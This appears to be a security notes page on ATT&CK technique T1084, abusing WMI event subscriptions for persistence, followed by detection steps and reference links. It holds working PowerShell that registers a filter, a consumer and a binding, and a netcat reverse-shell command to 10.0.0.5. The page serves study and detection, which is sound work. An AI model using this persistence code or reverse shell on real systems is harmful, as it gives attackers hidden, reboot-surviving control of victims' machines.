



# T1084: Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for \(i.e on new process created, on new disk added, etc\)
* event consumers - consumers can carry out actions when event filters are triggered \(i.e run a program, log to a log file, execute a script, etc\)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers.

WMI Events can be used by both offenders \(persistance, i.e launch payload when system is booted\) as well as defenders \(kill process evil.exe on its creation\).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:



```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```



Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:



```text
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```



## Observations

Note the process ancesry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:



On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:



```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```



Note the Query which suggests this wmi filters is checking system uptime every 5 seconds and is checking if its value is more or equal to 1200s:





```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription:
```






```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```




Microsoft-Windows-WMI-Activity/Operational logs contains logs for event `5861` that capture the event filter and event consumer creations:



Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below: 

{% embed data="{\"url\":\"https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/\",\"type\":\"link\",\"title\":\"PowerShell and Events: Permanent WMI Event Subscriptions\",\"description\":\"Wrapping up my series on PowerShell and Events, I will be talking about Permanent WMI Event Subscriptions and creating these using PowerShell. Mentioned in my previous article on temporary events, …\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://boeprox.files.wordpress.com/2013/08/image\_thumb29.png\",\"width\":613,\"height\":98,\"aspectRatio\":0.1598694942903752}}" %}

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=0SjMgnGwpq8\",\"type\":\"video\",\"title\":\"Abusing Windows Management Instrumentation \(WMI\)\",\"description\":\"by Matthew Graeber\\n\\nImagine a technology that is built into every Windows operating system going back to Windows 95, runs as System, executes arbitrary code, persists across reboots, and does not drop a single file to disk. Such a thing does exist and it\'s called Windows Management Instrumentation \(WMI\).\\n\\nWith increased scrutiny from anti-virus and \'next-gen\' host endpoints, advanced red teams and attackers already know that the introduction of binaries into a high-security environment is subject to increased scrutiny. WMI enables an attacker practicing a minimalist methodology to blend into their target environment without dropping a single utility to disk. WMI is also unlike other persistence techniques in that rather than executing a payload at a predetermined time, WMI conditionally executes code asynchronously in response to operating system events.\\n\\nThis talk will introduce WMI and demonstrate its offensive uses. We will cover what WMI is, how attackers are currently using it in the wild, how to build a full-featured backdoor, and how to detect and prevent these attacks from occurring.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/0SjMgnGwpq8/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/0SjMgnGwpq8?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/0SjMgnGwpq8?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}



{% embed data="{\"url\":\"https://www.darkoperator.com/blog/2013/1/31/introduction-to-wmi-basics-with-powershell-part-1-what-it-is.html\",\"type\":\"link\",\"title\":\"Introduction to WMI Basics with PowerShell Part 1 \(What it is and exploring it with a GUI\)\",\"description\":\"For a while I have been posting several ways I use WMI \(Windows Management Instrumentation\) in my day to day and in consulting but have never covered the basics. Talking with other people in the security field and in the system administration worlds they seem to see WMI as this voodoo black magic th\",\"icon\":{\"type\":\"icon\",\"url\":\"https://static.squarespace.com/universal/default-favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://pentestarmoury.com/2016/07/13/151/\",\"type\":\"link\",\"title\":\"Creeping on Users with WMI Events: Introducing PowerLurk\",\"description\":\"Introduction and Intent Since watching FireEye FLARE’s ‘WhyMI So Sexy?’ at Derbycon last September, I have wanted to better understand WMI Events and apply them to offensive security op…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestarmoury.files.wordpress.com/2016/07/screen-shot-2016-07-12-at-10-14-29-pm.png?w=1200\",\"width\":1200,\"height\":581,\"aspectRatio\":0.4841666666666667}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396\",\"type\":\"link\",\"title\":\"Win32 Classes \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/favicon.ico\",\"aspectRatio\":0}}" %}






